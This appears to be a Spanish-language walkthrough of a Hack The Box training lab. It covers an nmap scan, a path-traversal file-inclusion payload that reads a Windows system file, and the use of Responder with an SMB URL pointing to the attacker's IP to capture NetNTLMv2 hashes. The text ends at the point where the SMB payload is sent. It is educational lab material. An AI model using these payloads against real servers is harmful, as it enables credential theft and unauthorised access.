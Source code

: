 
## Pasos del Laboratorio

### 1. Enumeración Inicial con Nmap
Se inicia el proceso escaneando el host objetivo para identificar puertos abiertos y servicios en ejecución.
```bash
nmap -p- --min-rate 1000 -sV 10.129.128.223
```
* `-p-`: Escanea todos los puertos TCP (0-65535).
* `-sV`: Intenta determinar la versión del servicio.
* `--min-rate 1000`: Acelera el escaneo enviando un mínimo de 1000 paquetes por segundo.

**Resultados del Nmap:**
* Sistema Operativo: Windows.
* Puerto `80/tcp`: Abierto, corriendo `Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)`.
* Puerto `5985/tcp`: Abierto, corriendo `Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)` (WinRM).

### 2. Enumeración del Sitio Web y Configuración de /etc/hosts
Al intentar acceder al sitio web `http://[target ip]`, el navegador redirige a `http://unika.htb/`, indicando un Virtual Hosting Basado en Nombres.

Para resolver este hostname localmente:
```bash
echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
```
Esto permite al navegador resolver `unika.htb` a la IP correcta y enviar el encabezado `Host: unika.htb`, haciendo que el servidor responda con la página web de `unika.htb`.

### 3. Detección de Inclusión de Archivos Locales (LFI)
Se observa una opción de selección de idioma en el sitio web (EN/FR). Al cambiar a "Fr", la URL muestra `unika.htb/index.php?page=french.html`. Esto sugiere una posible vulnerabilidad LFI si el parámetro `page` no es sanitizado.

Se prueba la vulnerabilidad intentando incluir el archivo `hosts` de Windows:
```
[http://unika.htb/index.php?page=..///////./windows/system32/drivers/etc/hosts](http://unika.htb/index.php?page=..///////./windows/system32/drivers/etc/hosts)
```
* La cadena `../` se usa para retroceder directorios hasta la raíz `c:\`.

**Resultado:** Se logra visualizar el contenido del archivo `c:\windows\system32\drivers\etc\hosts` en la respuesta del navegador, confirmando la vulnerabilidad LFI. Esto ocurre porque la aplicación usa la función `include()` de PHP sin sanitización adecuada.

### 4. Captura de Hash NetNTLMv2 con Responder
Dado que el servidor web corre en Windows y es vulnerable a LFI, se aprovecha la excepción de PHP que no bloquea la carga de URLs SMB, incluso con `allow_url_include` y `allow_url_fopen` en `Off`.

1.  **Verificar Configuración de Responder**: Asegurarse de que Responder esté configurado para escuchar peticiones SMB (`SMB = On` en `Responder.conf`).
2.  **Iniciar Responder**:
    ```bash
    sudo python3 Responder.py -I tun0
    ```
    (Reemplaza `tun0` con tu interfaz de red de ataque, si es diferente). Responder simula un servidor SMB y escucha las peticiones de autenticación.
3.  **Enviar Payload LFI con URL SMB**: Desde el navegador, se solicita una URL SMB apuntando a la IP de la máquina del atacante:
    ```
    [http://unika.htb/?page=](http://unika.htb/?page=)\\10.10.14.25\somefile
    ```
    (Asegúrate de reemplazar `10.10.14.25` con la IP de tu máquina Kali/atacante).